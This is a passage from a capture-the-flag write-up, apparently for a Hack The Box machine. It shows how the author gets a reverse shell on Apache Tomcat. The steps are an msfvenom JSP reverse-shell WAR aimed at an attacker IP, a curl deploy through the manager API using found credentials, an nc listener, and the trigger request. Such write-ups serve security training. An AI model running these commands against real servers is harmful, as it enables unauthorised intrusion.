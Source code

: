 ## Tomcat Host Manager

However, the credentials do work for the Host Manager:

![[Pasted image 20240301173120.png]]

>[!info]- This is where I got stuck and began to rely on the guides I found
>
>From here on my notes are just rewritten / modified versions of the things I found in the two writeups I began using.

## Creating a Reverse Shell

A reverse shell can be created using a `.war` file. Usually in Tomcat a user can upload one using the web GUI but this is not the case for this box.

\# Generating the `.war` file:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=1234 -f war > shell.war
```

\# Uploading the payload (the `.war file):

```
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.129.194.244:8080/manager/text/deploy?path=/my-shell'
```

\# Check the payload is uploaded:

```
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.129.194.244:8080/manager/text/list
```

You can now see that the `.war` file I created and uploaded is listed as a running application:

![[Pasted image 20240301181537.png]]

Now an Ncat listener can be started on our attacker machine to listen for the incoming connection in order to receive the reverse shell:

\# Start Ncat listener:

```
nc -lnvp 1234
```

> Note: The nc listener port should be the same as the port specified when the `.war` was created - in this case it was `1234`

\# Execute the payload:

```
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.129.194.244:8080/my-shell/
```

As you can see the payload execute and connected to the Ncat listener - I now have a reverse shell as user `tomcat`:
